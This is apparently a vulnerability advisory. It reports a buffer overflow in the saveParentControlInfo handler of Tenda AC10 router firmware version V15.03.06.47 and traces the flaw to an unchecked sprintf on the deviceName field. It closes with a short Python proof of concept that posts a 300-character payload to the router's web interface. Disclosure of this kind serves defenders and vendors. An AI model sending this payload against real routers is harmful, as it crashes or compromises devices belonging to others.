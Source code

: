 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](5.png)

get value from deviceName ,then call set_device_name

![](6.png)

if deviceName and deviceId are are not null, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceName': payload, 'deviceId': 1})
``` 
